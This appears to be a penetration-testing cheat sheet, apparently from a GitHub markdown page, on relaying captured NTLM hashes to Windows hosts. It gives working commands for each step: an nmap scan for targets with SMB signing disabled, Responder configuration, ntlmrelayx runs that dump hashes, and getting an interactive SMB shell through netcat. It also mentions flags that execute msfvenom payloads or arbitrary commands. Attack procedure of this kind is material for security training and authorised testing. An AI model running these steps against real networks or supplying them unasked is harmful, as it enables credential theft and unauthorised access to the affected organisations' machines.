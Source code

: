 
+ Instead of cracking the captured hashes in responder, we can relay the hashes to specific machines and gain access.
+ SMB Signing must be disabled on the target.
+ Relayed user credential must be admin on machine.

1. Discover Hosts with SMB Signing Disabled using Nmap

```sh
$ nmap --script smb2-security-mode -p 445 <IP/Subnet: 192.168.1.2/24>
# check for status "Message signing enabled but not required"
```

2. Save the vulnerable targets in to a target.txt file

3. In order to attack, We have to make some modification in the configuration file of Responder
Make sure SMB and HTTP are turned off, because we are now going to respond. Done listening. lol
```sh
$ vim /etc/responder/Responder.conf
SMB = off
HTTP = off
```

4. Once the modification are done, Run Responder
```sh
$ responder -I <interface: tun0> -rdwv
# verify smb and http are turned off
```

5. We have to move on to another window and run ntlmrelayx now.
```sh
# Install impacket on attack machine
$ ntlmrelayx -tf <fileofIPwithsmbsigningdisabled: targets.txt> -smb2support

```
4. Wait for an event to occur and attack will happen.
5. Victim user should have admin role in target machines, then only attack will be successfull.
6. Wait for the dump in ntlmrelay window.
7. Save the dumped hashes to a text file for later attacks.

### Gain a SMB Shell

1. Run Responder 
```sh
$ responder -I <interface: tun0> -rdwv
# verify smb and http are turned off
```

2. Run ntlmrelayx in another tab
```sh
# Install impacket on attack machine
$ ntlmrelayx -tf <fileofIPwithsmbsigningdisabled: targets.txt> -smb2support -i
# added the flag '-i' in the command to get interactive shell after attack
# add ''-e' flag for execute msfvenom payload to get meterpreter session
# add '-c' flag to execute any commands like '-c "whoami" '
```
3. ntlmrelayx will show the ip and port once a shell is created
4. Connect to shell using netcat on another window using provided info
```sh
$ nc <IP Address> <port>
# SMB Shell Access
$ help
$ shares
$ use <sharename>
```